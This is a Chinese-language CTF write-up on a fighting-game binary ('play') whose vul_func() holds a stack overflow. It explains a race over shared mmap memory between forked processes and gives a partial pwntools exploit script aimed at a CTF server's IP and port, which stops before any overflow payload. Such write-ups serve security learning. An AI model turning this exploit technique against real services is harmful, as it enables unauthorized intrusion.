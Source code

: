 + https://bbs.pediy.com/thread-224200.htm

主要逻辑：
就是一个hero打monster的游戏，总共4个选项：1. hacking；2. change host；3. change methods；4. exit。

+ 选项1：互相攻击，hero死了就直接exit，monster死了并且monster达到3级（初始为0），就能进入vul_func()函数，触发栈溢出漏洞；没有达到3级，则monster升级1次
+ 选项2：恢复血力。
+ 选项3：改变技能。

这道题主要目标就是3次打败monster，使它升到3级，然后触发vul_func()函数。但是恢复血力时，相应的monster也会恢复血力，恢复的值还比hero的血还高一些，所以无解。但是因为是fork线程，存储hero的结构是用mmap申请的空间，可以通过输入已有的用户名，从文件中来的，即线程之间是共享内存，所以我们可以一边实现加血，一边打怪升级到溢出点即可。

打怪exp

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
from ctypes import *
 
context(os='linux',arch='amd64',aslr = 'False',log_level='debug')
DEBUG = 0
if DEBUG:
    p = process('./play')
    #p = process(['./play'], env={'LD_PRELOAD': os.path.join(os.getcwd(),'libc.so.6')})
    #context.log_level = 'debug'
    #libc = ELF('libc.so.6')#libc.so.6   #/lib/x86_64-linux-gnu/libc-2.24.so
else:
    p = remote('111.198.29.45',31012)
    #libc = ELF('libc.so.6')
 
libc = ELF('libc6-i386_2.23-0ubuntu10_amd64.so')
#libc = ELF('libc.so.6')
p.recvuntil('login:')
p.sendline('bsauce')
 
 
def hacking():
 p.recvuntil('choice>> ')
 p.send('1\n')
 p.recvuntil('(1:yes/0:no):')
 p.send('1\n')
 
def change_host():
 p.recvuntil('choice>> ')
 p.send('2\n')
 
 
def change_methods():
 p.recvuntil('choice>> ')
 p.send('3\n')
 p.recvuntil('choice>> ')
 p.send('1\n')

change_methods()
i=0
j=0
while 1:
    hacking()
    data=p.recvuntil('\n')
    #print data
    if "win" in data:
        i+=1
        print data
    if i>=3:
        time.sleep(1)
```